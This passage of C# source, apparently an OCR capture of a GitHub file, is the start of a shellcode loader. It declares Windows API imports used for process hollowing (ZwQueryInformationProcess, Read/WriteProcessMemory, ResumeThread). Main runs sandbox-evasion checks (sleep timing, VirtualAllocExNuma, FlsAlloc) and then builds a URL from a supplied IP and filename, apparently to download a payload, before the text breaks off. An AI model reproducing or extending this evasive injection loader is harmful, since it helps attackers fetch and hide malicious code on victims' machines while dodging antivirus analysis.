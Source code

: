 ```csharp
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess,
    int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation,
        uint ProcInfoLen, ref uint retlen);

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_BASIC_INFORMATION
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
    [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern uint ResumeThread(IntPtr hThread);

        static void Main(string[] args)
        {
            DateTime t1 = DateTime.Now;
            Sleep(2000);
            double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
            if (t2 < 1.5)
            {
                return;
            }

            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            IntPtr flsindex = FlsAlloc(IntPtr.Zero);
            if (flsindex == null)
            {
                return;
            }

            // Check if a URL was provided
            if (args.Length != 2)
            {
                Console.WriteLine("Please provide the IP and filename as command-line arguments.");
                return;
            }

            string url = "http://" + args[0] + "/" + args[1];
```